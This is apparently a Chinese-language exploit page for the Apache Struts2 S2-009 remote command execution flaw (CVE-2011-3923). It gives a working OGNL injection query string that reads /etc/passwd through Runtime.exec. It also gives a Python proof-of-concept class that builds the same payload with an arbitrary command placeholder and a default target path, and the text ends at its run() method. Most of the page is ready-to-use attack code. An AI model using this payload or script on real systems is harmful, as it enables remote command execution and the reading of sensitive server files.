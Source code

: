 #### 读取文件

```java
?age=12313&name=(%23context[%22xwork.MethodAccessor.denyMethodExecution%22]=+new+java.lang.Boolean(false),+%23_memberAccess[%22allowStaticMethodAccess%22]=true,+%23a=@java.lang.Runtime@getRuntime().exec(%27cat%20/etc/passwd%27).getInputStream(),%23b=new+java.io.InputStreamReader(%23a),%23c=new+java.io.BufferedReader(%23b),%23d=new+char[51020],%23c.read(%23d),%23kxlzx=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),%23kxlzx.println(%23d),%23kxlzx.close())(meh)&z[(name)(%27meh%27)]
```

### POC

```python
#!/usr/bin/env python3

import urllib
import random
import string
import requests

class S2_009_BaseVerify:
    def __init__(self, url):
        self.info = {
            'name': 'Struts2 S2-009漏洞,又名CVE-2011-3923漏洞',
            'description': 'Struts2 S2-009漏洞可执行任意命令, 影响范围为: Struts 2.0.0 - Struts 2.3.1',
            'date': '2012-01-20',
            'type': 'RCE'
        }
        self.url = url
        if not self.url.startswith("http") and not self.url.startswith("https"):
            self.url = "http://" + self.url
        if  '.action' not in self.url:
            self.url = self.url + '/ajax/example5.action'
        self.capta = self.get_capta() 
        self.payload =  '?age=12313&name=(%23context[%22xwork.MethodAccessor.denyMethodExecution%22]=+new+java.lang.Boolean(false),+%23_memberAccess[%22allowStaticMethodAccess%22]=true,+%23a=@java.lang.Runtime@getRuntime().exec(%27{cmd}%27).getInputStream(),%23b=new+java.io.InputStreamReader(%23a),%23c=new+java.io.BufferedReader(%23b),%23d=new+char[51020],%23c.read(%23d),%23kxlzx=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),%23kxlzx.println(%23d),%23kxlzx.close())(meh)&z[(name)(%27meh%27)]'
       
    def filter(self, check_str):
        temp = ''
        for i in check_str:
            if i != '\n' and i != '\x00':
                temp = temp + i
        return temp
    
    def get_capta(self):
        """
        获取一个随机字符串

        :param:

        :return str capta: 生成的字符串
        """
        capta = ''
        words = ''.join((string.ascii_letters,string.digits))
        for i in range(8):
            capta = capta + random.choice(words)
        return capta

    def run(self):
```